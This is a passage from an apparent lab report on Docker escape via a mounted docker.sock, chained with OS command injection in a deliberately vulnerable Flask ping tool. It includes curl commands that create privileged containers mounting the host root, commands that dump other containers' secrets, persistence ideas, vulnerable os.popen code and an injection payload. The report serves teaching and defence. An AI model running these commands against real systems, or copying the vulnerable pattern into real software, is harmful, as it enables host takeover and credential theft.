The deep-dive analysis of \texttt{docker.sock} follows in Chapter~4.


%% ─────────────────────────────────────────────────────────────────────────────
\section{The Docker CLI and REST API}
\label{sec:dockersock}
%% ─────────────────────────────────────────────────────────────────────────────

Every operation performed by the \texttt{docker} binary is an HTTP/1.1 request
transmitted to \texttt{dockerd} over a Unix domain socket. The CLI is a thin REST
client; it contains no container management logic of its own. The Docker daemon
exposes a versioned REST API (e.g., \texttt{/v1.41/containers/json}), and all
lifecycle operations map to specific HTTP methods and endpoints.

\begin{table}[h]
\centering
\caption{Docker CLI Commands and Corresponding API Endpoints}
\label{tab:docker-api}
\begin{tabular}{|l|l|l|}
\hline
\textbf{CLI Command}      & \textbf{HTTP Method} & \textbf{Endpoint}                        \\
\hline
\texttt{docker ps}        & GET                  & \texttt{/containers/json}                \\
\texttt{docker run}       & POST, POST           & \texttt{/containers/create},
                                                   \texttt{/containers/\{id\}/start}         \\
\texttt{docker exec}      & POST                 & \texttt{/containers/\{id\}/exec}          \\
\texttt{docker inspect}   & GET                  & \texttt{/containers/\{id\}/json}          \\
\texttt{docker pull}      & POST                 & \texttt{/images/create}                   \\
\hline
\end{tabular}
\end{table}

The daemon performs no caller authentication. Any process that can open
\texttt{/var/run/docker.sock} for reading and writing is authorised to issue any API
request. There is no token, no certificate, no session identifier. Socket access is
the sole credential.

The attack step covered in Chapter~8 uses this property: a \texttt{docker} binary
(or a \texttt{curl} invocation) inside the compromised container connects to the
bind-mounted socket and sends an HTTP POST to \texttt{/containers/create},
requesting a new container with the host root filesystem mounted at
\texttt{/hostfs} and \texttt{--privileged} set. \texttt{dockerd} receives this
request, treats it as legitimate, and creates the container with full host privileges.
The container's capability restrictions, seccomp profile, and namespace boundaries
are irrelevant---the \textit{daemon} performs the container creation, and the daemon
is not subject to any of these controls.

\begin{lstlisting}[language=bash]
# List containers via raw API -- no docker binary required
curl --unix-socket /var/run/docker.sock \
  http://localhost/containers/json

# Create a privileged container mounting the host root filesystem
curl --unix-socket /var/run/docker.sock \
  -X POST http://localhost/containers/create \
  -H "Content-Type: application/json" \
  -d '{
        "Image":      "alpine",
        "Cmd":        ["chroot", "/hostfs", "sh", "-c",
                       "echo pwned > /tmp/escaped.txt"],
        "Binds":      ["/:/hostfs"],
        "Privileged": true
      }'
\end{lstlisting}

The substitution of \texttt{curl} for the \texttt{docker} CLI in the code block
above is significant: it demonstrates that no Docker-specific tooling is required.
Any HTTP client that can write to a Unix socket---including a minimal shell script
using \texttt{/dev/unix}---can interact with the daemon API. This eliminates the
dependency on a \texttt{docker} binary being present inside the attacked container,
a defence sometimes proposed as a mitigation.

The REST API surface, the absence of authentication, and the daemon's host-root
execution context together form the complete technical basis for the attack. Chapter~4
examines the \texttt{docker.sock} socket in detail, and Chapter~8 traces the full
exploit chain from initial command injection to verified host filesystem access.
%% Chapter 4: The Docker Socket
%% Cybersecurity Lab Report --- Docker Escape via docker.sock Abuse and Command Injection

\chapter{The Docker Socket}

%% ─────────────────────────────────────────────────────────────────────────────
\section{What is a Unix Domain Socket}
%% ─────────────────────────────────────────────────────────────────────────────

A Unix Domain Socket (UDS) is a kernel inter-process communication (IPC) mechanism
that allows two processes on the same host to exchange data without traversing the
network stack. Unlike TCP or UDP sockets, a UDS uses the local kernel's socket
subsystem exclusively: data passes through an in-kernel buffer and never reaches a
network interface card. The socket is represented in the filesystem as a special file
of type \texttt{s}, visible in directory listings as a socket entry.

Two socket types are available: \texttt{SOCK\_STREAM}, which provides a
connection-oriented, ordered byte stream analogous to TCP, and \texttt{SOCK\_DGRAM},
which is connectionless. \texttt{docker.sock} uses \texttt{SOCK\_STREAM}. The kernel
lifecycle for a UDS connection mirrors that of a TCP connection but operates
entirely in memory:

\begin{itemize}
    \item \texttt{socket(AF\_UNIX, SOCK\_STREAM, 0)} --- the server (here,
          \texttt{dockerd}) allocates a socket file descriptor.
    \item \texttt{bind()} --- associates the socket descriptor with a filesystem path,
          creating the socket file at that path.
    \item \texttt{listen()} / \texttt{accept()} --- the server waits for and accepts
          incoming connections.
    \item \texttt{connect()} --- a client (the Docker CLI, \texttt{curl}, or a
          container process) opens a connection to the socket path.
    \item \texttt{send()} / \texttt{recv()} --- data passes through the kernel socket
          buffer. No NIC is involved; no IP address is used.
\end{itemize}

Access control over a UDS is \textit{entirely governed by the filesystem permissions
of the socket file}. There is no network firewall rule, no IP allowlist, and no TLS
by default. The only gate between a process and the daemon listening on the socket is
the result of a standard \texttt{open()} permission check against the socket file's
owner, group, and mode bits.

The kernel does provide one additional mechanism: \texttt{SO\_PEERCRED}, a socket
option that allows the server to query the PID, UID, and GID of the connecting
process. \texttt{dockerd} does query this information and records it in its logs, but
does not enforce any access restrictions based on it. Any process that successfully
opens the socket file receives full API access regardless of its UID---socket access
is the sole credential. This design decision, and its mitigation via a socket proxy,
is examined in Chapter~11.

\begin{lstlisting}[language=bash]
# Socket file type and permissions
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker 0 ... /var/run/docker.sock

# Confirm it is a socket
file /var/run/docker.sock
# /var/run/docker.sock: socket

# Observe syscalls issued by docker CLI when connecting
strace -e socket,connect,sendto docker ps 2>&1 | head -20
# socket(AF_UNIX, SOCK_STREAM, 0) = 3
# connect(3, {sa_family=AF_UNIX,
#             sun_path="/var/run/docker.sock"}, 23) = 0
\end{lstlisting}

\begin{figure}[h]
\centering

\includegraphics[width=0.9\textwidth]{images/ch4/kernel_ipc_flow.png}
% Diagram: Unix Domain Socket --- Kernel IPC Flow
% Shows: dockerd (server) and client process connected via kernel socket buffer
% Socket file path (/var/run/docker.sock) as the filesystem anchor
% Permission check occurring at connect() before data flows
% No network stack involvement --- annotate with "no NIC"
\caption{Unix Domain Socket: Kernel IPC Flow}
\end{figure}

\newpage

%% ─────────────────────────────────────────────────────────────────────────────
\section{\texttt{/var/run/docker.sock} --- What It Is and How It Works}
\label{sec:dockersock-detail}
%% ─────────────────────────────────────────────────────────────────────────────

\texttt{/var/run/docker.sock} is the Unix domain socket created by \texttt{dockerd}
at startup. Its path is located under \texttt{/var/run}, which the Filesystem
Hierarchy Standard designates for runtime data that is cleared on each boot.
\texttt{dockerd} creates it via \texttt{bind(AF\_UNIX, "/var/run/docker.sock")} and
destroys it when the daemon exits; if the daemon is killed without cleanup, a stale
socket file may remain but will be unreachable until the daemon restarts and
re-creates it.

The socket is owned by \texttt{root:docker} with permissions \texttt{srw-rw----}
(mode 660). This means:

\begin{itemize}
    \item UID 0 (root): read and write access.
    \item Members of the \texttt{docker} group: read and write access.
    \item All other users: no access.
\end{itemize}

The protocol carried over the socket is \textbf{HTTP/1.1}, not a custom binary
protocol. The full Docker REST API is exposed as HTTP endpoints, with
\texttt{Content-Type: application/json} for most request and response bodies. Several
response types use HTTP chunked transfer encoding for streaming output---container
logs, the event stream, and image pull progress all use this mechanism. Interactive
sessions (\texttt{docker attach}, \texttt{docker exec -it}) upgrade the HTTP
connection to a WebSocket.

\texttt{dockerd}'s accept loop operates as follows: for each incoming connection, it
calls \texttt{accept()} on the socket file descriptor and spawns a goroutine to handle
the request. The goroutine reads the HTTP request, routes it to the appropriate API
handler function, performs the requested operation with its own root-level privileges,
and writes the JSON response back to the client. No authentication token is checked
and no session state is maintained between requests; each HTTP request is
independently processed.

\begin{lstlisting}[language=bash, caption={Inspecting \texttt{docker.sock} ownership and protocol}]
# Full stat output showing ownership and permissions
stat /var/run/docker.sock
# File: /var/run/docker.sock
# Access: srw-rw---- Uid: 0 (root)  Gid: 999 (docker)

# Locate the socket among dockerd's open file descriptors
ls -la /proc/$(pgrep dockerd)/fd | grep socket

# Verify HTTP protocol --- daemon responds with JSON
curl --unix-socket /var/run/docker.sock http://localhost/version
# {"Version":"24.x","ApiVersion":"1.43", ...}

# Raw HTTP request without curl
echo -e "GET /version HTTP/1.1\r\nHost: localhost\r\n\r\n" | \
  socat - UNIX-CONNECT:/var/run/docker.sock
\end{lstlisting}

\begin{figure}[h]
\centering

\includegraphics[width=0.9\textwidth]{images/ch4/connection_lifecycle.png}
% Diagram: /var/run/docker.sock --- Connection Lifecycle
% Shows:
%   dockerd: bind() → listen() → accept() → parse HTTP → execute → respond
%   client:  connect() → send HTTP request → recv JSON response
%   filesystem permission check as a gate before connect() succeeds
%   kernel socket buffer in the middle carrying HTTP/1.1 frames
\caption{\texttt{/var/run/docker.sock}: Connection Lifecycle}
\end{figure}

The critical observation is that the socket file's permission bits are \textit{the
only access control layer} between a process and full Docker daemon authority. There
is no API key, no bearer token, no mutual TLS on the Unix socket path. A process that
satisfies the filesystem permission check---UID 0, or a process whose GID set includes
\texttt{docker}---is immediately a fully authenticated daemon client.

\newpage

%% ─────────────────────────────────────────────────────────────────────────────
\section{Why Applications Mount the Socket: Legitimate Use Cases}
\label{sec:legit-uses}
%% ─────────────────────────────────────────────────────────────────────────────

The pattern \texttt{-v /var/run/docker.sock:/var/run/docker.sock} is documented in
official guides, widely reproduced in tutorials, and present in default configurations
of several mainstream tools. It exists because certain containerised workloads have
a genuine operational need to manage or observe other containers on the same host.
The bind-mount mechanism is identical to that established in Section~\ref{sec:bindmounts}:
the socket inode is identical on both sides of the mount boundary, and the container
process interacts with the host daemon directly.

Understanding the legitimate demand for this pattern is important to the security
analysis: it explains why the misconfiguration is common in production environments
and why it is frequently overlooked during container configuration reviews.

\subsection{CI/CD Pipelines}

Continuous integration runners such as Jenkins agents, GitLab Runner, and Drone CI
are commonly deployed as containers. When a pipeline stage needs to build or publish
a Docker image, it requires access to a Docker daemon. The operationally simplest
solution---widely documented in official CI platform guides---is to mount the host
socket into the runner container, a pattern sometimes called Docker-outside-of-Docker
(DooD) as a safer alternative to running a full nested Docker daemon
(Docker-in-Docker, DinD).

A build step inside the runner container then issues \texttt{docker build} or
\texttt{docker push} commands, which are transmitted as HTTP requests through the
bind-mounted socket to the host daemon. The daemon performs the actual build with
host-root privileges. The security implication is direct: a compromised CI job, a
malicious dependency in a build step, or a supply-chain attack on the pipeline
configuration inherits full host daemon access for the duration of the job.

\subsection{Container Management Interfaces}

Portainer is a web-based Docker management interface deployed as a container. It
requires socket access to enumerate, start, stop, and reconfigure containers on the
host. Watchtower is an automated container update tool that polls a registry for new
image versions, pulls them, and restarts affected containers; all of these operations
are issued via the daemon API. Both tools mount the socket and require full API
access; neither operates with a scoped read-only credential by default.

Portainer does offer a \textit{socket proxy} deployment mode that interposes a
filtering proxy between Portainer and the socket, but this option is skipped in
the majority of small and homelab deployments. The consequence is that compromising
the Portainer container---through a Portainer vulnerability, a misconfigured admin
credential, or a network exposure---is equivalent to compromising the host.

\subsection{Monitoring and Observability Agents}

The Datadog agent, Prometheus cAdvisor, and Elastic Agent all mount the Docker socket
to collect container metrics: CPU and memory usage, running container lists, image
metadata. These agents require only \texttt{GET} endpoints---\texttt{/containers/json},
\texttt{/stats}, \texttt{/info}---yet the socket grants them the full API surface
including all write and destructive endpoints.

Standard Docker provides no read-only socket mode. Mounting \texttt{docker.sock}
always grants the full API regardless of the caller's intent. This is a structural
least-privilege violation: a monitoring agent that needs \texttt{GET /stats} receives
\texttt{POST /containers/create} and \texttt{DELETE /containers/{id}} as well. The
socket proxy pattern, discussed in Chapter~11, addresses this by whitelisting only
the specific endpoints a given consumer requires.

\newpage

%% ─────────────────────────────────────────────────────────────────────────────
\section{The Danger: What Socket Access Actually Grants}
\label{sec:socket-danger}
%% ─────────────────────────────────────────────────────────────────────────────

Socket access is, precisely, an unauthenticated HTTP connection to a root-privileged
daemon. The following enumerates what this grants concretely, ordered from
reconnaissance to full persistence.

\textbf{Host intelligence gathering:}

\begin{itemize}
    \item List all running and stopped containers, their images, environment variables,
          port mappings, and volume bindings via \texttt{GET /containers/json}.
    \item Inspect any container's full configuration, including its \texttt{Env} field
          which often contains database passwords, API keys, and cloud credentials,
          via \texttt{GET /containers/\{id\}/json}.
    \item Enumerate all images, volumes, and networks present on the host.
    \item Retrieve host-level information including kernel version, OS type, Docker
          root directory, and active security options via \texttt{GET /info}.
\end{itemize}

\textbf{Container control:}

\begin{itemize}
    \item Start, stop, pause, and kill any container on the host.
    \item Execute commands in any running container via
          \texttt{POST /containers/\{id\}/exec} --- this includes containers belonging
          to unrelated workloads.
    \item Stream the logs of any container, which may contain credentials, session
          tokens, or sensitive business data.
\end{itemize}

\textbf{Host filesystem access:}

\begin{itemize}
    \item Create a new container with \texttt{"Binds": ["/:/hostfs"]} and
          \texttt{"Privileged": true}. The daemon mounts the entire host root
          filesystem into the new container. The new container's capability
          restrictions, seccomp profile, and namespace boundaries are set by the
          daemon at creation time---the attacker's original container's restrictions
          are entirely irrelevant.
    \item From within the new container, \texttt{chroot /hostfs} provides an
          interactive shell rooted at the real host filesystem. All files are
          accessible as host root.
\end{itemize}

\textbf{Persistence:}

\begin{itemize}
    \item Write an SSH public key to \texttt{/root/.ssh/authorized\_keys} via the
          host mount, establishing permanent authenticated access.
    \item Install a cron job under \texttt{/etc/cron.d/} on the host filesystem.
    \item Modify \texttt{/etc/passwd} or \texttt{/etc/sudoers} to create a
          backdoor account.
    \item Deploy a container with \texttt{--restart=always} that persists across
          host reboots and provides a persistent reverse shell or relay.
\end{itemize}

The privilege escalation path used in this project follows four steps:

\begin{enumerate}
    \item The target container has \texttt{/var/run/docker.sock} bind-mounted.
    \item The attacker installs the Docker CLI inside the container (or uses
          \texttt{curl} directly).
    \item The CLI issues \texttt{docker run -v /:/hostfs alpine} as an HTTP POST
          through the socket to the host daemon.
    \item The daemon creates and starts a new privileged container with the host
          root filesystem mounted; a command executed inside it writes directly to
          the real host filesystem.
\end{enumerate}

No kernel exploit is involved at any stage. The daemon performs all privileged
operations using its own credentials.

\begin{lstlisting}[language=bash, caption={Demonstrating socket access from within a container}]
# Confirm socket is accessible from inside the container
ls -la /var/run/docker.sock

# List all containers on host without docker binary
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/json | python3 -m json.tool

# Dump env vars of any container (may contain secrets)
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/netdiag-app/json | \
  python3 -c "import sys,json; \
  [print(e) for e in json.load(sys.stdin)['Config']['Env']]"

# The escape --- spawn privileged container with host root
docker -H unix:///var/run/docker.sock run --rm \
  -v /:/hostfs alpine \
  chroot /hostfs sh -c 'id > /tmp/escaped.txt'
\end{lstlisting}


%% ─────────────────────────────────────────────────────────────────────────────
\section{The Docker API Over the Socket --- curl Examples}
\label{sec:api-curl}
%% ─────────────────────────────────────────────────────────────────────────────

The Docker CLI is not required to interact with the daemon. Because the protocol over
the socket is plain HTTP/1.1, any HTTP client capable of connecting to a Unix domain
socket---\texttt{curl}, \texttt{socat}, \texttt{wget}, or a custom script---is
sufficient. This has a significant implication for attack scenarios: the absence of a
\texttt{docker} binary inside a container does not prevent daemon exploitation if the
socket is accessible.

The API is versioned at \texttt{/v1.43/\ldots} but unversioned paths such as
\texttt{/containers/json} are accepted and resolved to the daemon's current API
version. Responses are JSON; the \texttt{python3 -m json.tool} pipeline provides
readable output without additional dependencies.

Container execution via the raw API is a two-step process: \texttt{POST
/containers/create} returns a container ID; \texttt{POST /containers/\{id\}/start}
launches it. The table below maps the operations relevant to the attack chain.

\begin{table}[h]
\centering
\caption{Docker API Endpoints Relevant to the Attack Chain}
\label{tab:api-endpoints}
\begin{tabular}{|l|l|l|l|}
\hline
\textbf{Operation}        & \textbf{Method} & \textbf{Endpoint}                          & \textbf{Body}      \\
\hline
List containers           & GET             & \texttt{/containers/json}                  & ---                \\
Inspect container         & GET             & \texttt{/containers/\{name\}/json}         & ---                \\
Create container          & POST            & \texttt{/containers/create}                & JSON config        \\
Start container           & POST            & \texttt{/containers/\{id\}/start}          & ---                \\
Exec in container         & POST            & \texttt{/containers/\{id\}/exec}           & JSON cmd           \\
Pull image                & POST            & \texttt{/images/create?fromImage=alpine}   & ---                \\
Host info                 & GET             & \texttt{/info}                             & ---                \\
List volumes              & GET             & \texttt{/volumes}                          & ---                \\
\hline
\end{tabular}
\end{table}

\begin{lstlisting}[language=bash, caption={Raw API interaction: host reconnaissance and full escape without the Docker binary}]
# 1. Daemon version and host OS information
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/info | python3 -m json.tool | \
  grep -E '"Name"|"OSType"|"DockerRootDir"|"SecurityOptions"'

# 2. List running containers with names and short IDs
curl -s --unix-socket /var/run/docker.sock \
  "http://localhost/containers/json" | \
  python3 -c "import sys,json; \
  [print(c['Names'], c['Id'][:12]) for c in json.load(sys.stdin)]"

# 3. Full escape via raw API --- no docker binary required
# Step A: create the container
CID=$(curl -s --unix-socket /var/run/docker.sock \
  -X POST http://localhost/containers/create \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine",
    "Cmd":   ["sh","-c",
              "echo pwned_via_api > /hostfs/tmp/escaped.txt"],
    "HostConfig": {"Binds":["/:/hostfs"], "Privileged":true}
  }' | python3 -c "import sys,json; print(json.load(sys.stdin)['Id'])")

# Step B: start it
curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/containers/${CID}/start"

# 4. Read secrets from another container's environment
curl -s --unix-socket /var/run/docker.sock \
  http://localhost/containers/netdiag-app/json | \
  python3 -c "import sys,json; \
  d=json.load(sys.stdin); \
  [print(e) for e in d['Config']['Env']]"
\end{lstlisting}

The two-step create-then-start sequence in the listing above is the exact flow that
Chapter~8 traces at the syscall level when the escape is performed against the live
lab environment. The \texttt{HostConfig.Binds} and \texttt{HostConfig.Privileged}
fields in the create body are the JSON representation of the \texttt{-v} and
\texttt{--privileged} flags that \texttt{dockerd} translates into an OCI
\texttt{config.json} before handing the bundle to \texttt{runc}.


%% ─────────────────────────────────────────────────────────────────────────────
\section{Root Equivalence --- Why Socket Access = Host Root}
\label{sec:root-equiv}
%% ─────────────────────────────────────────────────────────────────────────────

The preceding sections establish the individual components of a formal equivalence
claim. This section states and defends that claim directly: \textit{access to
\texttt{docker.sock} is functionally equivalent to an interactive root shell on the
host}.

The argument proceeds from three premises. First, \texttt{dockerd} runs as UID 0 on
the host with a full, unrestricted Linux capability set including
\texttt{CAP\_SYS\_ADMIN}. Second, \texttt{dockerd} executes every API request using
its own credentials; it does not drop privilege or impersonate the caller. Third, any
process that successfully opens the socket file receives full API access with no
further authentication. Combining these premises: socket access confers the ability
to direct a root-privileged process to perform arbitrary host operations on the
caller's behalf. The caller requires no privilege of its own.

The practical completeness of this equivalence can be assessed by examining each
defensive layer from Chapter~2 in turn.

\textbf{Namespace boundaries:} A new container created via the API can be configured
with \texttt{--pid=host}, \texttt{--network=host}, \texttt{--userns=host}, and
\texttt{-v /:/hostfs}. Each flag removes a namespace boundary that was in place for
the attacker's original container. The daemon sets these parameters at creation time
using its own host-level namespace membership; the attacker's container namespaces
are irrelevant to the new container's configuration.

\textbf{Capability restrictions:} The API accepts \texttt{"Privileged": true} and
\texttt{"CapAdd": ["ALL"]} in the container create body. Regardless of what
capabilities the attacker's container holds, the daemon can grant the newly spawned
container a full capability set.

\textbf{Seccomp and AppArmor:} The create body accepts
\texttt{"SecurityOpt": ["seccomp:unconfined", "apparmor:unconfined"]}, disabling both
filters on the new container. As established in Sections~2.7 and~2.8, neither filter
is enforced against the daemon's own operations in any case.

\textbf{cgroup limits:} No resource limits are applied to an attacker-spawned
container unless explicitly configured. CPU, memory, and PID limits set on the
attacker's original container do not propagate to new containers it creates.

The conclusion is that every defensive layer enumerated in Table~\ref{tab:isolation-gaps}
of Chapter~2 can be individually circumvented through daemon API parameters. The
daemon removes each restriction on the attacker's behalf.

Table~\ref{tab:escalation-vectors} contextualises docker.sock access within the
broader landscape of host privilege escalation paths.

\begin{table}[h]
\centering
\caption{Host Privilege Escalation Vectors: Comparative Assessment}
\label{tab:escalation-vectors}
\begin{tabular}{|l|l|l|}
\hline
\textbf{Vector}                       & \textbf{Prerequisite}           & \textbf{Reliability}      \\
\hline
\texttt{docker.sock} access           & Socket file permission          & Deterministic             \\
Kernel exploit                        & Unpatched CVE                   & Version-dependent         \\
\texttt{--privileged} container       & Container flag at creation      & Deterministic             \\
Writable \texttt{/etc/cron.d}         & File permission                 & Deterministic             \\
SUID binary abuse                     & Vulnerable binary present       & Situational               \\
\hline
\end{tabular}
\end{table}

Among the deterministic vectors, \texttt{docker.sock} access is the most commonly
encountered in containerised production environments because the socket mount pattern
is operationally motivated (Section~\ref{sec:legit-uses}) and widely documented in
official tooling guides. It requires no vulnerability in the kernel, runtime, or
application---only the presence of the socket file at a path accessible to the
container.

This equivalence is recognised across the major security frameworks governing
container deployments. The CIS Docker Benchmark, OWASP Docker Security Cheat Sheet,
and NIST SP 800-190 (Application Container Security Guide) all classify unrestricted
\texttt{docker.sock} mounting as a critical misconfiguration. The remediation
strategies they recommend---socket proxies, rootless Docker, and daemon socket
removal---are evaluated in Chapter~11.

A comparable real-world pattern was observed in the 2018 Tesla cryptojacking incident,
in which an exposed Kubernetes dashboard provided unauthenticated access to the
cluster control plane. Control-plane access translated to the ability to schedule
workloads with cloud metadata service access, which yielded AWS credentials. The
structural pattern---control-plane API access equals host compromise---is identical to
the \texttt{docker.sock} scenario: neither required a software vulnerability, only an
exposed management interface.
\chapter{The NetDiag Web Application}

\section{Application Purpose and Design}

NetDiag is a containerized network diagnostic web tool that exposes \texttt{ping} functionality over HTTP via a minimal Flask application. It exists in this lab not as a contrived toy, but as a faithful model of a class of vulnerable applications that appear regularly in real infrastructure: network appliance web interfaces, internal DevOps tooling, and monitoring dashboards built quickly without security review.

The application mirrors patterns found in router and managed switch web UIs that expose diagnostic commands such as \texttt{ping}, \texttt{traceroute}, and \texttt{nslookup} to authenticated or unauthenticated users. It also reflects the internal tooling pattern: a developer needs a quick way to test connectivity from a server, writes a Flask wrapper around a shell command, and deploys it on the internal network without ever intending it to be a security boundary.

The entire application lives in a single file, \texttt{app.py}, with one vulnerable route. Every design decision in the application is intentional for demonstration purposes, but each one mirrors a real misconfiguration:

\begin{itemize}
    \item Arbitrary user input is accepted via a query parameter with no validation.
    \item Input is passed directly to the shell via \texttt{os.popen()}.
    \item The process runs as \texttt{root} inside the container — no \texttt{USER} directive appears in the Dockerfile.
    \item Raw command output is returned to the browser.
    \item No authentication, input validation, or rate limiting is implemented.
\end{itemize}

The vulnerability class is \textbf{OS Command Injection} (CWE-78): user-supplied input is embedded in a shell command string and interpreted by \texttt{/bin/sh}. The attack surface is a single HTTP GET endpoint, unauthenticated, exposed on port 5000.

\section{Flask and the WSGI Model}

\subsection{WSGI: The Bridge Between Network and Python}

Flask is a WSGI application. WSGI --- the Web Server Gateway Interface, defined in PEP 3333 --- is the Python standard that defines how a web server hands an HTTP request to a Python application. Any WSGI-compliant application implements a callable with the signature \texttt{\_\_call\_\_(environ, start\_response)}. The web server calls this callable for each request; the application returns an iterable of response bytes.

In development, Flask uses Werkzeug's built-in WSGI server, started via \texttt{flask run} or \texttt{app.run()}. In production, a WSGI application would sit behind gunicorn or uWSGI. NetDiag uses the development server, which is single-threaded by default.

\subsection{Flask Request Lifecycle}

Each HTTP request to NetDiag follows this path:

\begin{enumerate}
    \item A TCP connection is accepted on port 5000.
    \item Werkzeug parses the HTTP request and populates the \texttt{request} context object.
    \item The URL router matches the path to the registered view function via \texttt{@app.route}.
    \item The view function executes and returns a response string or object.
    \item Werkzeug serializes the HTTP response, sends it over the socket, and closes the connection.
\end{enumerate}

\subsection{OS-Level View of Request Handling}

At the operating system level, the Flask development server runs as a single Python process. When the \texttt{/ping} route calls \texttt{os.popen()}, the following kernel operations occur:

\begin{enumerate}
    \item The Flask process (UID 0) calls \texttt{pipe()}, creating a read/write file descriptor pair.
    \item The Flask process calls \texttt{fork()}, creating a child process that inherits UID 0.
    \item The child calls \texttt{dup2()} to redirect its stdout to the write end of the pipe.
    \item The child calls \texttt{execve("/bin/sh", ["-c", cmd], environ)}.
    \item The shell executes the command string.
    \item The parent reads the pipe via \texttt{os.popen().read()}, blocking until the child exits.
\end{enumerate}

The resulting process tree during a request looks like this:

\begin{lstlisting}
python3 app.py (PID X, UID 0)
  /bin/sh -c "ping -c 3 <user_input>" (PID X+1, UID 0)
      ping / injected command (PID X+2, UID 0)
\end{lstlisting}

Because the container runs without user namespace remapping, UID 0 inside the container is UID 0 on the host kernel. Every forked process inherits this identity. Injected commands therefore execute with full root privileges.

\begin{lstlisting}
# Verify Flask process UID inside container
ps aux

# Verify port binding
ss -tlnp | grep 5000
\end{lstlisting}

\begin{figure}[h]
\centering

\includegraphics[width=\textwidth]{images/ch5/wsgi_execution_flow.png}
\caption{Flask Request to OS Process: WSGI Execution Flow. Shows HTTP request arriving at Werkzeug, dispatched to Flask route, \texttt{os.popen()} called, \texttt{fork()} and \texttt{execve("/bin/sh")} fired, child process spawned. UID 0 inheritance annotated at the fork boundary.}
\end{figure}

\section{Route Structure and Request Handling}

NetDiag exposes two routes:

\begin{itemize}
    \item \texttt{GET /} --- serves the HTML UI form page; no user input is processed.
    \item \texttt{GET /ping?host=<value>} --- the vulnerable route; processes the \texttt{host} query parameter.
\end{itemize}

The attack surface is intentionally narrow: one route, one parameter. But that single route is the critical path.

\subsection{Input Handling in \texttt{/ping}}

Flask extracts the \texttt{host} value using \texttt{request.args.get('host')}. Werkzeug parses query parameters into an \texttt{ImmutableMultiDict} object. URL-encoded characters are decoded automatically before the value reaches the view function:

\begin{itemize}
    \item \texttt{\%3B} decodes to \texttt{;}
    \item \texttt{\%26} decodes to \texttt{\&}
    \item \texttt{\%7C} decodes to \texttt{|}
\end{itemize}

This decoding happens transparently. The attacker sends URL-encoded shell metacharacters in the query string; the application receives the decoded, shell-active characters. There is no type checking, no length limit, and no character filtering at any point in this pipeline.

The HTTP method is GET: input travels in the URL, appears in server access logs, and is stored in browser history. No CSRF protection is relevant for a read-only GET --- though the "read-only" assumption breaks entirely once command injection is achieved.

Both successful and failed requests return \texttt{200 OK}. Error output is not surfaced, but stdout from all commands in the injection chain is included in the response body.

\begin{lstlisting}
# Normal request
curl "http://192.168.98.4:5000/ping?host=8.8.8.8"

# Semicolon injected via URL encoding
# %3B decodes to ; before reaching app.py
curl "http://192.168.98.4:5000/ping?host=8.8.8.8%3Bid"
\end{lstlisting}

\section{The Vulnerable \texttt{/ping} Route: Code Walkthrough}

\subsection{The Vulnerable Code}

\begin{lstlisting}[language=Python]
@app.route('/ping')
def ping():
    host = request.args.get('host', '')
    result = os.popen("ping -c 3 " + host).read()
    return render_template('index.html', result=result)
\end{lstlisting}

Three lines. Each one contributes to the vulnerability.

\subsection{Line-by-Line Analysis}

\textbf{\texttt{host = request.args.get('host', '')}}

Retrieves the raw decoded string value of the \texttt{host} query parameter. If the parameter is absent, defaults to an empty string. No validation, sanitization, or type enforcement is applied. The value at this point may contain any character, including shell metacharacters.

\textbf{\texttt{os.popen("ping -c 3 " + host)}}

This is the vulnerability. String concatenation builds a shell command. The result is passed as a single string to \texttt{/bin/sh -c}. The shell receives and interprets the entire string, including any metacharacters embedded in \texttt{host}. \texttt{os.popen()} returns a file-like object connected to the command's stdout via a pipe.

\textbf{\texttt{.read()}}

Reads the entire stdout of the shell session into a Python string. This is a blocking call: the Flask thread waits until all processes in the shell's command chain have exited. Critically, it captures output from \emph{all} commands that execute --- including injected ones.

\textbf{\texttt{render\_template('index.html', result=result)}}

Injects the captured output into the HTML template and returns it in the HTTP response. The attacker sees the results of injected commands directly in the browser.

\subsection{Shell Metacharacter Interpretation}

When \texttt{/bin/sh} receives the concatenated command string, it interprets the following metacharacters:

\begin{itemize}
    \item \texttt{;} --- command separator: both commands run sequentially regardless of exit status.
    \item \texttt{\&\&} --- conditional AND: second command runs only if the first succeeds.
    \item \texttt{||} --- conditional OR: second command runs only if the first fails.
    \item \texttt{|} --- pipe: stdout of first command becomes stdin of second.
    \item \texttt{`...`} or \texttt{\$()} --- command substitution.
    \item \texttt{\&} --- background execution.
    \item \texttt{\textbackslash n} --- newline also acts as a command separator.
\end{itemize}

\subsection{Kernel-Level Execution for \texttt{8.8.8.8;id}}

Tracing the full kernel execution path for the input \texttt{8.8.8.8;id}:

\begin{enumerate}
    \item \texttt{os.popen("ping -c 3 8.8.8.8;id")} is called in the Flask process (PID X, UID 0).
    \item Python calls \texttt{pipe()} to create a read/write file descriptor pair.
    \item Python calls \texttt{fork()}: child process PID X+1 is created, inheriting UID 0.
    \item Child calls \texttt{dup2()} to redirect its stdout to the write end of the pipe.
    \item Child calls \texttt{execve("/bin/sh", ["-c", "ping -c 3 8.8.8.8;id"], environ)}.
    \item The shell parses the command string, identifies the \texttt{;} separator, and runs \texttt{ping}, then \texttt{id}.
    \item \texttt{id} produces \texttt{uid=0(root) gid=0(root) groups=0(root)} on stdout, which is written to the pipe.
